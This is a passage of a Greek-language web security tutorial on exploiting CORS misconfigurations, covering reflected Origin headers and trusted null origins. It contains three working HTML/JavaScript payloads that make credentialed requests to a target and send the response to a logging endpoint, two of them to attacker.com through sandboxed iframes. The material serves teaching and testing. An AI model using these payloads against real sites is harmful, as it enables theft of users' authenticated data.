 ### Εξαίρεση: Εκμετάλλευση Τοποθεσίας Δικτύου ως Αυθεντικοποίηση

Υπάρχει μια εξαίρεση όπου η τοποθεσία δικτύου του θύματος λειτουργεί ως μορφή αυθεντικοποίησης. Αυτό επιτρέπει στον περιηγητή του θύματος να χρησιμοποιείται ως μεσολαβητής, παρακάμπτοντας την αυθεντικοποίηση βάσει IP για πρόσβαση σε εφαρμογές intranet. Αυτή η μέθοδος έχει ομοιότητες στην επίδραση με την DNS rebinding αλλά είναι πιο απλή στην εκμετάλλευση.

### Αντανάκλαση του `Origin` στο `Access-Control-Allow-Origin`

Το σενάριο του πραγματικού κόσμου όπου η τιμή της κεφαλίδας `Origin` αντανάκλαται στο `Access-Control-Allow-Origin` είναι θεωρητικά απίθανο λόγω περιορισμών στη συνδυαστική χρήση αυτών των κεφαλίδων. Ωστόσο, οι προγραμματιστές που επιθυμούν να ενεργοποιήσουν το CORS για πολλαπλές διευθύνσεις URL μπορεί να δημιουργήσουν δυναμικά την κεφαλίδα `Access-Control-Allow-Origin` αντιγράφοντας την τιμή της κεφαλίδας `Origin`. Αυτή η προσέγγιση μπορεί να εισάγει ευπάθειες, ιδιαίτερα όταν ένας επιτιθέμενος χρησιμοποιεί ένα τομέα με όνομα σχεδιασμένο να φαίνεται νόμιμο, παραπλανώντας έτσι τη λογική επικύρωσης.
```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://example.com/details',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='/log?key='+this.responseText;
};
</script>
```
### Εκμετάλλευση της `null` Προέλευσης

Η `null` προέλευση, που καθορίζεται για καταστάσεις όπως ανακατευθύνσεις ή τοπικά αρχεία HTML, κατέχει μια μοναδική θέση. Ορισμένες εφαρμογές επιτρέπουν αυτή την προέλευση για να διευκολύνουν την τοπική ανάπτυξη, επιτρέποντας ακούσια σε οποιαδήποτε ιστοσελίδα να μιμηθεί μια `null` προέλευση μέσω ενός sandboxed iframe, παρακάμπτοντας έτσι τους περιορισμούς CORS.
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://example/details',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
};
</script>"></iframe>
```

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://example/details',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
};
</script>"></iframe>
```
### Τεχνικές Παράκαμψης Κανονικών Εκφράσεων
